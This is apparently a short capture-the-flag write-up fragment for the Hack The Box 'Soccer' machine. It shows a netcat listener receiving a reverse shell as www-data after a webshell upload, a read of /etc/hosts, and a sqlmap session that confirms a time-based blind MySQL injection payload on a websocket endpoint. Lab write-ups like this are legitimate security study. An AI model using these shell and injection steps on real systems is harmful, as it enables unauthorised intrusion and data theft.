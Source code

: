BOOM!!!

we can uload a webshekk

xabaras@helix:~/workdir/ctf/htb/soccer.htb$ nc -nvlp 8000
Listening on 0.0.0.0 8000

Connection received on 10.10.11.194 46782
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 22:38:28 up  2:09,  2 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ $ 



$ cat /etc/hosts
127.0.0.1	localhost	soccer	soccer.htb	soc-player.soccer.htb

127.0.1.1	ubuntu-focal	ubuntu-focal

$ 







abaras@helix:~/workdir/ctf/htb/soccer.htb$ sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"64286*"}'
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:50:47 /2023-02-17/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] y
[23:50:54] [INFO] resuming back-end DBMS 'mysql' 
[23:50:54] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"72525 AND (SELECT 7135 FROM (SELECT(SLEEP(5)))nZtU)-- nwsQ"}
---
[23:50:57] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[23:50:57] [INFO] fetched data logged to text files under '/home/xabaras/.sqlmap/output/soc-player.soccer.htb'
[23:50:57] [WARNING] your sqlmap version is outdated
